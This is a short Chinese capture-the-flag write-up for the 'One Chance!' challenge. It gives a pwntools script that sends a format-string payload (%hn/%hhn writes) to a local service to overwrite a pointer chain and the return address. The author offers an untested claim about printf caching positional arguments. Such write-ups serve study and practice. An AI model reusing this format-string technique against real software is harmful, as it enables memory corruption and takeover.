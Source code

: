 # One Chance!

给了栈地址，那么就能算出vuln函数的返回地址。只需将修改地址链和修改返回地址放在一个payload里即可
```py
from pwn import *
p=remote("127.0.0.1","50333")
p.recvuntil(": ")
vuln_ret=int(p.recvline(keepends=False),16)-8
value=(vuln_ret&0xffff)-13
p.sendlineafter("!","%c"*13+f"%{value}c%hn%{0xffff-(vuln_ret&0xffff)+1+8}c%45$hhn")
p.interactive()
```
注意改地址链时不能使用数字参数（`%xx$hn`），据说这样做会导致printf缓存这个值，后续写`%45$hhn`时用的还是原本的值，而不是改好的那个地址。我是在[这里](https://eth007.me/blog/ctf/stiller-printf/)看到这个知识点的，不过不确定是不是真的，自己没实验过。前人栽树后人乘凉，不管树是不是真的（